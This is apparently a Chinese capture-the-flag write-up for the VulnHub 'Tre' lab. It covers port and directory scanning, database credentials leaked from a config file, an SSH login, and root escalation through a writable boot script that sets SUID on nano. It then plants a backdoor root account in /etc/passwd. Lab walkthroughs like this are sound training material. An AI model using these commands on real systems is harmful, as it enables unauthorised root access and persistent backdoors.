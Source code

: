 # TRE: 1

> https://download.vulnhub.com/tre/Tre.zip

靶场IP：`192.168.2.132`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.132                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-04 05:54 EDT
Nmap scan report for 192.168.2.132
Host is up (0.00080s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
8082/tcp open  http    nginx 1.14.2
MAC Address: 00:0C:29:DD:27:3B (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.66 seconds

```

访问80端口

![image-20220904175454146](../../.gitbook/assets/image-20220904175454146.png)

访问8082端口，也是相同页面

![image-20220904175517667](../../.gitbook/assets/image-20220904175517667.png)

爆破web目录

```
┌──(root💀kali)-[~]
└─# dirb http://192.168.2.132  /usr/share/wordlists/dirb/big.txt
```

找到一个config目录

![image-20220904181019553](../../.gitbook/assets/image-20220904181019553.png)

发现MySQL密码

```
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```

![image-20220904181042122](../../.gitbook/assets/image-20220904181042122.png)

找到一个路径：`/adminer.php`

```
┌──(root💀kali)-[~]
└─# gobuster dir --url  http://192.168.2.132/  -w /usr/share/wordlists/dirb/big.txt -x .php
```

![image-20220904181227411](../../.gitbook/assets/image-20220904181227411.png)

![image-20220904181349771](../../.gitbook/assets/image-20220904181349771.png)

使用 MySQL 数据库登录后，我们寻找任何有用的信息，我们发现该表中有一个 `mantis_user_table`，其中包含用户名和密码。

![image-20220904181440809](../../.gitbook/assets/image-20220904181440809.png)

使用tre账号连接SSH。

![image-20220904181523329](../../.gitbook/assets/image-20220904181523329.png)

使用linEnum找到`check-system`文件

```
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done

```

> 使用`pspy64`监控运行文件
>
> ![image-20220904183950391](../../.gitbook/assets/image-20220904183950391.png)

由于上述文件作为用户具有读写权限，因此使用 nano 编辑器编辑了该文件。并赋予 nano 文件的 SUID 权限，但 `/usr/bin/check-system` 将在系统重新启动时更新更改。

```
chmod +s /usr/bin/nano
```

![image-20220904183015918](../../.gitbook/assets/image-20220904183015918.png)

这里 -r 标志用于重新启动主机系统。再次检查 nano 文件系统的权限，并注意现在启用了 SUID 权限

```
sudo shutdown -r now
```

```
tre@tre:~$ ls -al /usr/bin/nano
-rwsr-sr-x 1 root root 246160 Jun 11  2019 /usr/bin/nano
tre@tre:~$ 
```

现在我可以尝试修改 passwd 文件以进行权限提升

```
tre@tre:~$ openssl passwd -1 -salt user3 pass123
$1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

```
tre@tre:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tre:x:1000:1000:tre,,,:/home/tre:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
hack:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0::/root:/bin/bash

```

```
su hack
```

![image-20220904183654360](../../.gitbook/assets/image-20220904183654360.png)